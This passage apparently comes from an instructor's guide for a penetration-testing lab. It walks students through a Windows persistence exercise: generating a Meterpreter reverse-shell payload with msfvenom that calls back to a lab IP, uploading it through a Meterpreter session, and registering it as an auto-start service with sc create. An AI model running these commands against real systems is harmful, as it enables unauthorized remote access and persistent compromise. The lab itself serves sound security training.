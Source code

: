      - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)

     - Point out to students that the format must be `exe-service` and not just `exe`. Executables run by Service Manager are different from regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
         - `ls` (to see your executable)
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`
